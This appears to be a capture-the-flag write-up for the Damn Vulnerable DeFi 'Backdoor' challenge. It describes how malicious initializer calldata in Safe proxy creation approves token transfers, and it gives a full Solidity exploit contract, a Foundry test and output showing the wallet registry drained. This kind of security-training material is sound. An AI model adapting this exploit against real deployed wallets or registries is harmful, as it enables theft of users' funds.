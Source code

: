 # Damn Vulnerable Defi - Backdoor
- Scope
    - WalletRegistry.sol
    - SafeProxyFactory.sol
    - Safe.sol
    - SafeProxy.sol
    - IProxyCreationCallback.sol
- Tools
    - [Foundry](https://github.com/foundry-rs/foundry)

# Findings

## Malicious calldata injected to approve ETH transfer during Proxy creation

### Summary
Malicious calldata can be injected to approve ETH transfer during Proxy creation, allowing another user to transfer ETH out of the proxy.

### Vulnerability Details
The data provided during Proxy creation can be malicious as there is no verification. Such as creating a backdoor to approve and transfer token.

### Impact/Proof of Concept
1. Create malicious data to approve of transferring ETH
2. Provide the malicious data during Proxy creation which will approve
3. With the approved ETH, we can perform transferFrom and drain from the Proxy
```
function test_backdoor() public checkSolvedByPlayer {
        console.log("beforeBalance: ", token.balanceOf(address(walletRegistry)));
        Exploit exploit = new Exploit(address(singletonCopy),address(walletFactory),address(walletRegistry),address(token),recovery);
        exploit.attack(users);
        console.log("afterBalance: ", token.balanceOf(address(walletRegistry)));
    }

contract Exploit {
    address private immutable singletonCopy;
    address private immutable walletFactory;
    address private immutable walletRegistry;
    DamnValuableToken private immutable dvt;
    address recovery;
    
    constructor(
        address _masterCopy,
        address _walletFactory,
        address _registry,
        address _token,
        address _recovery
    ) {
        singletonCopy = _masterCopy;
        walletFactory = _walletFactory;
        walletRegistry = _registry;
        dvt = DamnValuableToken(_token);
        recovery = _recovery;
    }

    function delegateApprove(address _spender) external {
        dvt.approve(_spender, 10 ether);
    }

    function attack(address[] memory _beneficiaries) external {
        // For every registered user we'll create a wallet
        for (uint256 i = 0; i < 4; i++) {
            address[] memory beneficiary = new address[](1);
            beneficiary[0] = _beneficiaries[i];

            // Create the data that will be passed to the proxyCreated function on WalletRegistry
            // The parameters correspond to the GnosisSafe::setup() contract
            bytes memory _initializer = abi.encodeWithSelector(
                Safe.setup.selector, // Selector for the setup() function call
                beneficiary, // _owners =>  List of Safe owners.
                1, // _threshold =>  Number of required confirmations for a Safe transaction.
                address(this), //  to => Contract address for optional delegate call.
                abi.encodeWithSignature("delegateApprove(address)", address(this)), // data =>  Data payload for optional delegate call.
                address(0), //  fallbackHandler =>  Handler for fallback calls to this contract
                0, //  paymentToken =>  Token that should be used for the payment (0 is ETH)
                0, // payment => Value that should be paid
                0 //  paymentReceiver => Adddress that should receive the payment (or 0 if tx.origin)
            );

            // Create new proxies on behalf of other users
        SafeProxy _newProxy = SafeProxyFactory(walletFactory).createProxyWithCallback(
         singletonCopy,  // _singleton => Address of singleton contract.
         _initializer,   // initializer => Payload for message call sent to new proxy contract.
         i,              // saltNonce => Nonce that will be used to generate the salt to calculate the address of the new proxy contract.
         IProxyCreationCallback(walletRegistry)  // callback => Cast walletRegistry to IProxyCreationCallback
);
            //Transfer to caller
            dvt.transferFrom(address(_newProxy), recovery, 10 ether);
        }
    }
}
```

Results
```diff
[PASS] test_backdoor() (gas: 1742197)
Logs:
  beforeBalance:  40000000000000000000
  afterBalance:  0

Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 2.55ms (1.46ms CPU time)
```

